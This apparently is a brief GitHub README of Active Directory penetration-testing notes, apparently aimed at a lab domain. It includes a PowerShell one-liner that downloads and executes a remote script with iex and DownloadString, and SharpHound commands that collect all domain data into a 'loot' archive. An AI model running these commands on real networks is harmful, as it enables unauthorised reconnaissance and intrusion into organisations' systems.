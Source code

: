 # ActiveDirectory
A bunch of Active Directory including scripts and tools

Import AD Module without RSAT - ```iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory```

PowerView tips and tricks - https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

SharpHound Collectors - https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/

. .\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.lab -OutputDirectory C:\Temp -ZipFileName loot123.zip
